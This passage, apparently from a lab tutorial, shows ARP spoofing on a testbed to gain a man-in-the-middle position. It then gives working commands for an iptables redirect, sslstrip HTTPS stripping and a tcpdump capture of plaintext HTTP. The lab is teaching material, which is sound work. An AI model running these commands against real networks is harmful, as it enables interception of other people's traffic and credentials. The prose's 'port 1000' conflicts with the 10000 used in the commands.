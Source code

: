 to start the ARP spoofing. Re-run

```
arp -n -a -i eth1
```

on the client, and you should now see an entry for the router's IP address (192.168.0.1) but with the attacker's MAC address. For example:

```
? (192.168.0.99) at 02:ec:23:e9:fe:46 [ether] on eth1
? (192.168.0.1) at 02:ec:23:e9:fe:46 [ether] on eth1
```

Verify that the man-in-the-middle attack works. On the attacker node, run

```
sudo tcpdump -i eth1 tcp
```

and on the router node, also run

```
sudo tcpdump -i eth1 tcp
```

Finally, in the Firefox running in NoVNC, reload the web page at 

http://witestlab.poly.edu

Verify that the page loads (it should still be over HTTPS). You should see traffic in the `tcpdump` that runs on the attacker, but not on the `tcpdump` that runs on the router. Once you've verified this, you can stop both `tcpdump` instances.

### Execute the HTTPS stripping attack

Finally, we're ready to execute the HTTPS stripping part of the attack.

On the attacker node, run the following command:

```
sudo iptables -t nat -A PREROUTING -p tcp --destination-port 80 -j REDIRECT --to-port 10000
```

This will redirect traffic from port 80 (the default web port for HTTP traffic) to port 1000, which is where the proxy will listen.

Then, on the attacker, run

```
screen sslstrip -l 10000
```

to start the SSL stripping proxy.

#### Visit a site for the first time

On the attacker node, run
```
sudo tcpdump -s 1514 -i eth1 'port 80' -U -w - | tee traffic.pcap | tcpdump -nnxxXSs 1514 -r -
```
to display only HTTP packets and output to the file traffic.pcap. This is the unencrypted communication between the client and the site that the attacker can see.
